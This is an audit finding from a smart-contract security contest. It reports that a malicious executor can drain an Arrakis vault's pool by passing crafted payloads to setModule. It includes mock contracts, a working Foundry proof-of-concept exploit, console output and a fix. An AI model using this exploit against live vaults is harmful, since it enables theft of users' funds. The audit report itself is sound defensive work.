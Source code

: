 Tricky Alabaster Panda

high

# When calling `setModule`, a malicious executor can use malicious payload to steal 100% of the pool's liquidity

## Summary
The contest README states:
> Executor of ArrakisStandardManager is RESTRICTED during rebalance action on vaults.

This report shows a complex attack, performed by the restricted `executor` when calling `setModule` - ultimately draining 100% of the liquidity in the pool in one transaction. 

## Vulnerability Detail

The root cause lies in `ValantisHOTModule.withdraw(receiver_, proportion_)` , which is a permissioned function with the modifier `onlyMetaVault` 

This function can withdraw a `proportion_` of the pool’s liquidity, sending it to the `receiver_` 

This function is called by the `ArrakisMetaVault` in only two different areas, and is used in a way that cannot be exploited. 

However, the protocol did not consider that the meta-vault makes an arbitrary call to the newly set module, and this can be used to call `withdraw()` on the module with malicious calldata.

```solidity
/// @dev we transfer here all tokens to the new module.
_module.withdraw(module_, BASE);

uint256 len = payloads_.length;
for (uint256 i = 0; i < len; i++) {
	(bool success,) = module_.call(payloads_[i]);
	if (!success) revert CallFailed();
}
```

In the above code snippet within `ArrakisMetaVault.setModule()`, `_module` is the old module and `module_` is the new one.

We can see that the entire liquidity of the pool is withdrawn, and transferred to the new `module_` which is set as the receiver.

Then, arbitrary `payloads_` passed in by the executor are called on the new module. 

When calling `setModule()` , a malicious executor can provide the following `payloads_` array:

- [0] `initializePosition()`
    - This will re-deposit the tokens into the pool (via the new module)
- [1] `withdraw(executor_address, BASE)`
    - This will withdraw 100% of the liquidity via the new module right after it has been deposited, and send it to the malicious executor’s provided address

## Impact

Once a well-intentioned vault owner calls `whitelistModules`  and a new module is created, a malicious executor can call `setModule` from the `ArrakisStandardManager` with a malicious payload to steal the entire pool’s liquidity. 

Note that the vault owner is not malicious in this attack. The vulnerability still exists even if the new module (and it’s associated ALM and SovereignPool) are perfectly normal.

## Proof of Concept

To run the coded PoC, add it to the `arrakis-modular/test/integration` directory.

2 of the mocks used have been slightly modified compared to the protocol's version, so I have provided them here:

**Mocks:**

<details><summary>SovereignALMMock.sol</summary>
    
```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.19;

import {IERC20} from "@openzeppelin/contracts/token/ERC20/IERC20.sol";
import {SafeCast} from
    "@openzeppelin/contracts/utils/math/SafeCast.sol";

contract SovereignALMMock {
    address public token0;
    address public token1;

    constructor(address t0, address t1) {
        token0 = t0;
        token1 = t1;
    }

    uint160 public sqrtSpotPriceX96;

    function setSqrtSpotPriceX96(uint160 sqrtSpotPriceX96_)
        external
    {
        sqrtSpotPriceX96 = sqrtSpotPriceX96_;
    }

    function setToken0AndToken1(
        address token0_,
        address token1_
    ) external {
        token0 = token0_;
        token1 = token1_;
    }

    function getReservesAtPrice(uint160)
        external
        view
        returns (uint128 reserves0, uint128 reserves1)
    {
        reserves0 = SafeCast.toUint128(
            IERC20(token0).balanceOf(address(this))
        );
        reserves1 = SafeCast.toUint128(
            IERC20(token1).balanceOf(address(this))
        );
    }

    function depositLiquidity(
        uint256 amount0,
        uint256 amount1,
        uint160,
        uint160
    )
        external
        returns (uint256 amount0Deposited, uint256 amount1Deposited)
    {
        IERC20(token0).transferFrom(
            msg.sender, address(this), amount0
        );
        IERC20(token1).transferFrom(
            msg.sender, address(this), amount1
        );

        amount0Deposited = amount0;
        amount1Deposited = amount1;
    }

    function withdrawLiquidity(
        uint256 amount0,
        uint256 amount1,
        address receiver,
        uint160,
        uint160
    ) external {
        IERC20(token0).transfer(receiver, amount0);
        IERC20(token1).transfer(receiver, amount1);
    }

    function setPriceBounds(
        uint160 _sqrtPriceLowX96,
        uint160 _sqrtPriceHighX96,
        uint160 _expectedSqrtSpotPriceUpperX96,
        uint160 _expectedSqrtSpotPriceLowerX96
    ) external {}

    function getAMMState()
        external
        view
        returns (uint160, uint160, uint160)
    {
        return (sqrtSpotPriceX96, 0, 0);
    }
}

```

</details>
    
<details><summary> SovereignPoolMock.sol </summary>
    
```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.19;

import {IERC20} from "@openzeppelin/contracts/token/ERC20/ERC20.sol";

contract SovereignPoolMock {
    address public token0;
    address public token1;

    uint256 public managerBalance0;
    uint256 public managerBalance1;

    uint256 public managerFeeBIPS;

    uint256 public reserves0;
    uint256 public reserves1;

    function setReserves(
        uint256 reserves0_,
        uint256 reserves1_
    ) external {
        reserves0 = reserves0_;
        reserves1 = reserves1_;
    }

    function setToken0AndToken1(
        address token0_,
        address token1_
    ) external {
        token0 = token0_;
        token1 = token1_;
    }

    function setManagesFees(
        uint256 managerBalance0_,
        uint256 managerBalance1_
    ) external {
        managerBalance0 = managerBalance0_;
        managerBalance1 = managerBalance1_;
    }

    function setPoolManagerFeeBips(uint256 poolManagerFeeBips_)
        external
    {
        managerFeeBIPS = poolManagerFeeBips_;
    }

    function claimPoolManagerFees(
        uint256,
        uint256
    )
        external
        returns (
            uint256 feePoolManager0Received,
            uint256 feePoolManager1Received
        )
    {
        feePoolManager0Received = managerBalance0;
        feePoolManager1Received = managerBalance1;
        if (managerBalance0 > 0) {
            IERC20(token0).transfer(msg.sender, managerBalance0);
        }

        if (managerBalance1 > 1) {
            IERC20(token1).transfer(msg.sender, managerBalance1);
        }
    }

    // #region view functions.

    function getPoolManagerFees()
        external
        view
        returns (uint256 poolManagerFee0, uint256 poolManagerFee1)
    {
        poolManagerFee0 = managerBalance0;
        poolManagerFee1 = managerBalance1;
    }

    function poolManagerFeeBips() external view returns (uint256) {
        return managerFeeBIPS;
    }

    function getReserves() external view returns (uint256, uint256) {
        return (reserves0, reserves1);
    }

    // #endregion view functions.
}
```

</details>

**PoC:**

<details>
<summary> Foundry Test PoC </summary>
    
```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.19;

// Foundry imports
import {console} from "forge-std/console.sol";
import {Vm} from "forge-std/Vm.sol";

import {ArrakisMetaVaultPublic} from
    "../../src/ArrakisMetaVaultPublic.sol";
    import {ArrakisMetaVault} from
    "../../src/abstracts/ArrakisMetaVault.sol";
import {TimeLock} from
    "../../src/TimeLock.sol";
import {ArrakisStandardManager} from
    "../../src/ArrakisStandardManager.sol";
import {IModuleRegistry} from
    "../../src/interfaces/IModuleRegistry.sol";
import {ValantisModulePublic} from
    "../../src/modules/ValantisHOTModulePublic.sol";

import {TEN_PERCENT} from "../../src/constants/CArrakis.sol";

import {ValantisModule} from "../../src/abstracts/ValantisHOTModule.sol";
import {IArrakisMetaVaultPublic} from
    "../../src/interfaces/IArrakisMetaVaultPublic.sol";
import {IArrakisMetaVault} from
    "../../src/interfaces/IArrakisMetaVault.sol";

import {IOwnable} from "../../src/interfaces/IOwnable.sol";

import {SovereignPool} from  "../../lib/valantis-hot/lib/valantis-core/src/pools/SovereignPool.sol";

// Mocks
import {OracleWrapper} from "./mocks/OracleWrapper.sol";
import {SovereignPoolMock} from "./mocks/SovereignPoolMock.sol";
import {SovereignALMMock} from "./mocks/SovereignALMMock.sol";

//Base Test
import {ValantisIntegrationPublicTest} from "./ValantisIntegrationPublic.t.sol";

contract PoC_MaliciousExecutor_DrainsWholePool is ValantisIntegrationPublicTest {
  
    address minter;

    address public constant OWNER_EOA = 0x529a65684a6923958ab6b7DF7B909a8D5e1580ae;

    function test_new_maliciousExecutor_drainsPool() public {
        

        // #region Vault Init
        minter = makeAddr("minter");

        deal(address(token0), minter, init0); // 2000e6 (0: USDC)
        deal(address(token1), minter, init1); // 1e18   (1: WETH)
        vm.label(address(token0), "token0");
        vm.label(address(token1), "token1");

        address oldModule = address(IArrakisMetaVault(vault).module());

        //@e user mints from meta vault, using old module
        vm.startPrank(minter);
        token0.approve(oldModule, init0);
        token1.approve(oldModule, init1);

        IArrakisMetaVaultPublic(vault).mint(1e18, minter);
        vm.stopPrank();
        // #endregion Vault Init

        console.log(
            "\n [Before]\n Executor's Balance:\n token0: %e\n token1: %e", 
            token0.balanceOf(executor), 
            token1.balanceOf(executor)
        );
        console.log(
            "Pool's Balance Before:\n token0: %e\n token1: %e", 
            token0.balanceOf(address(pool)), 
            token1.balanceOf(address(pool))
        );

        TimeLock timelock = TimeLock(payable(IOwnable(vault).owner()));

        // Initialisation Data for the newly whitelisted module
        bytes[] memory initData = new bytes[](1);
        initData[0] = abi.encodeWithSelector(
            ValantisModule.initialize.selector,
            address(new SovereignPoolMock()), 1e18, 1e18, 1e5, vault
        );

        bytes memory whitelistModulesPayload = abi.encodeWithSelector(
            ArrakisMetaVault.whitelistModules.selector,
            IModuleRegistry(moduleRegistry).beacons(), initData
        );

        //Whitelist a new module (same beacon as the existing module)
        vm.startPrank(OWNER_EOA);
        timelock.schedule(vault, 0, whitelistModulesPayload, bytes32(0), bytes32(uint256(0xff)), 2 days);
        vm.warp(block.timestamp + 2 days);
        timelock.execute(vault, 0, whitelistModulesPayload, bytes32(0), bytes32(uint256(0xff)));
        vm.stopPrank();

        bytes memory almPayload = abi.encodeWithSelector(
            ValantisModule.setALMAndManagerFees.selector,
            address(new SovereignALMMock(address(token0), address(token1))),
            oracle
        );

        address[] memory modules = ArrakisMetaVaultPublic(vault).whitelistedModules();

        //@e set ALM for the new module
        //@note: A mock ALM is used for simplicity of setup, but it will still work with a real ALM
        vm.startPrank(OWNER_EOA);
        timelock.schedule(modules[1], 0, almPayload, bytes32(0), bytes32(uint256(0xff)), 2 days);
        vm.warp(block.timestamp + 2 days);
        timelock.execute(modules[1], 0, almPayload, bytes32(0), bytes32(uint256(0xff)));

        vm.stopPrank();

        // A specific sequence of two calls will be made
        bytes[] memory payloads = new bytes[](2);
        
        // First Call: initializePosition (Deposits liquidity into ALM)
        payloads[0] = abi.encodeWithSelector(
            ValantisModule.initializePosition.selector
        );
        
        // Second Call: withdraw (Withdraws liqudity, and sends it to malicious `executor`)
        payloads[1] = abi.encodeWithSelector(
            ValantisModule.withdraw.selector,
            executor,
            1e18
        );

        // Set the module and pass in the maliciously crafted payloads
        vm.startPrank(executor);
        ArrakisStandardManager(payable(manager)).setModule(vault, modules[1], payloads);

        //DONE: the funds have been sent to `executor`
        console.log(
            "\n [After]\n Executor's Balance:\n token0: %e\n token1: %e", 
            token0.balanceOf(executor), 
            token1.balanceOf(executor)
        );
        console.log(
            "Pool's Balance After:\n token0: %e\n token1: %e", 
            token0.balanceOf(address(pool)), 
            token1.balanceOf(address(pool))
        );
        assertEq(token0.balanceOf(executor), 2e9);
        assertEq(token1.balanceOf(executor), 1e18);

        assertEq(token0.balanceOf(address(pool)), 0);
        assertEq(token1.balanceOf(address(pool)), 0);
    }
}
```

</details>
    
<details><summary> Console output </summary>
    
```bash
Ran 1 test for test/integration/H3.t.sol:H3
[PASS] test_new_maliciousExecutor_drainsPool() (gas: 2282431)
Logs:
  
 [Before]
 Executor's Balance:
 token0: 0e0
 token1: 0e0
  Pool's Balance Before:
 token0: 2e9
 token1: 1e18
  
 [After]
 Executor's Balance:
 token0: 2e9
 token1: 1e18
  Pool's Balance After:
 token0: 0e0
 token1: 0e0

Test result: ok. 1 passed; 0 failed; 0 skipped; finished in 390.42ms
```

</details>

## Code Snippet
https://github.com/sherlock-audit/2024-03-arrakis/blob/64a7dc6ccb5de2824870474a9f35fd3386669e89/arrakis-modular/src/abstracts/ArrakisMetaVault.sol#L97-L134

## Tool used
Manual Review

## Recommendation
Do not allow the function selector for `ValantisHOTModule.withdraw()` to be included as a payload passed to `setModule()`
